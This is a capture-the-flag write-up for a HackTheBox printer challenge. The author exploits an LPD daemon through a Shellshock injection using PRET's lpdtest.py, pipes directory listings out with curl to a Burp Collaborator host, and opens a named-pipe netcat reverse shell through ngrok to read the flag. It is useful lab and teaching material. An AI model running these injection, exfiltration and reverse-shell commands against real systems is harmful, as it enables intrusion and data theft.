 # HackTheBox Challenge - Line
## Description
>During an architectural review of printers on our network, we found an LPD protocol implementation running on a network printer. Can you help in auditing this service?

## What we know
- We are dealing with a LPD Daemon.
- There is going to be some flaw with the LPD implementation.
- Most likely running some form of *nix under the hood.

## First steps
- After searching for some tools to make life easier, found PRET @ https://github.com/RUB-NDS/PRET
- PRET has a tool lpd/lpdtest.py to make interaction with the daemon easier.
- lpdtest.py requires python2

### lpdtest.py -h output
```
┌──(kali㉿kali)-[~/PRET/lpd]
└─$ python3 lpdtest.py -h                                                      
usage: lpdtest [-h] [--port PORT] hostname {get,put,rm,in,mail,brute} argument

Line Printer Daemon Protocol (RFC 1179) Test.

positional arguments:
  hostname              printer ip address or hostname
  {get,put,rm,in,mail,brute}
                        select lpd proto security test
  argument              specific to test, see examples

options:
  -h, --help            show this help message and exit
  --port PORT           printer port

example usage:
  lpdtest printer get /etc/passwd
  lpdtest printer put ../../etc/passwd
  lpdtest printer rm /some/file/on/printer
  lpdtest printer in '() {:;}; ping -c1 1.2.3.4'
  lpdtest printer mail lpdtest@mailhost.local
  lpdtest printer brute ./printerLdpList.txt --port 1234
  ```
  
 ## Using lpdtest.py
 - Testing get and put was fruitless.
 - Using the `in` argument gave a example of using a shellshock vulnerability.
 - Since we can't see the output, I tested to see if Burp Collaborator would see a DNS query with:
  
   `python lpdtest.py --port 311xx 138.68.x.x in '() {:;}; ping #######.oastify.com'`
   - Received: > The Collaborator server received a DNS lookup of type AAAA for the domain name #######.oastify.com.

## Success, we have RCE! Time to find the flag.
- Tried to simply list the contents of directories and have them be POSTed to Burp Collaborator with:

  `python lpdtest.py --port 311xx 138.68.x.x in '() {:;}; ls -lha | curl -F file=@- http://######.oastify.com/api/upload'`
```
POST /api/upload HTTP/1.1
User-Agent: curl/7.35.0
Host: ######.oastify.com
Accept: */*
Content-Length: 1505
Expect: 100-continue
Content-Type: multipart/form-data; boundary=------------------------c5749f677739a93a

--------------------------c5749f677739a93a
Content-Disposition: form-data; name="file"; filename="-"
Content-Type: application/octet-stream

total 1.4M
drwxr-xr-x   1 root root 4.0K Oct  6 21:48 .
drwxr-xr-x   1 root root 4.0K Oct  6 21:48 ..
-rw-r--r--   1 root root 1.3M Apr 10  2010 bash_4.1-3_amd64.deb
drwxr-xr-x   1 root root 4.0K Aug 17  2021 bin
drwxr-xr-x   2 root root 4.0K Apr 10  2014 boot
drwxr-xr-x   5 root root  360 Oct  6 21:03 dev
drwxr-xr-x   1 root root 4.0K Aug 17  2021 etc
drwxr-xr-x   2 root root 4.0K Apr 10  2014 home
drwxr-xr-x   1 root root 4.0K Aug 17  2021 lib
drwxr-xr-x   2 root root 4.0K Dec 17  2019 lib64
drwxr-xr-x   2 root root 4.0K Dec 17  2019 media
drwxr-xr-x   2 root root 4.0K Apr 10  2014 mnt
drwxr-xr-x   1 root root 4.0K Aug 17  2021 opt
dr-xr-xr-x 479 root root    0 Oct  6 21:03 proc
drwx------   1 root root 4.0K Aug 17  2021 root
drwxr-xr-x   1 root root 4.0K Mar 25  2021 run
drwxr-xr-x   1 root root 4.0K Mar 25  2021 sbin
drwxr-xr-x   2 root root 4.0K Dec 17  2019 srv
dr-xr-xr-x  13 root root    0 Oct  6 21:03 sys
-rw-r--r--   1 root root  111 Oct  6 21:38 test
-rw-r--r--   1 root root  956 Oct  6 21:44 test2
-rw-r--r--   1 root root    0 Oct  6 21:45 test3
-rw-r--r--   1 root root    0 Oct  6 21:46 test4
-rw-r--r--   1 root root    0 Oct  6 21:51 test5
drwxrwxrwt   2 root root 4.0K Dec 17  2019 tmp
drwxr-xr-x   1 root root 4.0K Dec 17  2019 usr
drwxr-xr-x   1 root root 4.0K Dec 17  2019 var

--------------------------c5749f677739a93a--
```
- This worked, but there were issues when trying to do commands like `ls -lha /etc` where no request would be sent.


- I gave up trying to determine the exact issue with the directory listing and running some commands and switched to using a reverse shell. 
- Used ngrok to get a tunnel to my PC `ngrok tcp 4444`
- Used netcat listening on port 4444 `nc -lvp 4444`
- Running `nc` normally with `nc HOST PORT -e /bin/bash` and other shells failed:
```
└─$ python lpdtest.py --port 311xx 138.68.xx.xx in '() {:;}; nc 0.tcp.ngrok.io 187xx –e /bin/bash'
[in] Trying to send user input '() {:;}; nc 0.tcp.ngrok.io 187xx –e /bin/bash'
Negative acknowledgement
```
- Trying a different method to launch nc finally worked: `python lpdtest.py --port 311xx 138.68.x.x in '() {:;}; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 0.tcp.ngrok.io 187xx >/tmp/f'`
```
└─$ nc -lvp 4444               
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 423xx
sh: 0: can't access tty; job control turned off
# ls
bash_4.1-3_amd64.deb
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
test
test2
test3
test4
test5
tmp
usr
var
```
- Now I had a shell and I needed was to find the flag:
```
# find / -name flag*
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/sys/kernel/sched_domain/cpu2/domain0/flags
/proc/sys/kernel/sched_domain/cpu3/domain0/flags
/xxx/flag.txt
/sys/devices/pnp0/00:00/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/lo/flags
/sys/devices/virtual/net/eth0/flags
# cat /xxx/flag.txt
HTB{XXXXXXX_XXX_XX_XXXX_XXXXXXX}
```
Challenge Complete!
